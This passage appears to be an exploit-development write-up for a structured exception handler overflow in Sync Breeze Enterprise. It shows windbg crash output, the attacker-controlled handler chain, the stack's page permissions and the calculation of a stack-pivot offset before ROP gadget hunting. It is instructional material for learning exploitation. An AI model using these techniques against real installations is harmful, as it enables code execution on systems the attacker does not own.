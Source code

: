 Running the application in windbg and then triggering the crash shows:
```
(30f8.2de4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=42424242 ebx=0331fa0c ecx=0331ff08 edx=0331f9c4 esi=0331ff08 edi=0331fb10
eip=008b2a9d esp=0331f998 ebp=0331feb8 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
libpal!SCA_ConfigObj::Deserialize+0x1d:
008b2a9d ff5024          call    dword ptr [eax+24h]  ds:002b:42424266=????????
```

As this is an SEH exploit we should look at the exception handler chain.
```
0:012> !exchain
0331fe0c: libpal!md5_starts+149fb (0092df5b)
0331ff44: 44444444
Invalid exception stack at 43434343
```

This shows that the next SEH handler is `0x44444444` or `DDDD` which is something we control! 
To figure out where to go from here we should check the page permissions of the stack if it is RWX we can do a `pop pop ret;` and point the SEH handler to a location on the stack and execute our shell code. If it is not executable (NX / DEP enabled) then we will have to use ROP.
```
0:012> !address @esp
... snip ...

Usage:                  Stack
Base Address:           0331e000
End Address:            03320000
Region Size:            00002000 (   8.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE

Content source: 1 (target), length: 1724
```

## Stack Pivot
When an expection handler is called, the `esp` register shall be decremented by a fair bit from where the top of our payload is. To fix this we need to put a gadget in the SEH address (currently populated with `DDDD`) that will `add esp <offset>; ret` and return esp back to where our shellcode is.

To find the offset, we need esp when the exception is getting handled and the location of the top of our buffer.

At the time of the exception: `0x02d1f560` and the top of the buffer is at `0x02d1fa10`

Meaning we need a jump close to `0x4b0`

To find this we can use ropper to generate all the possible rop gadgets.
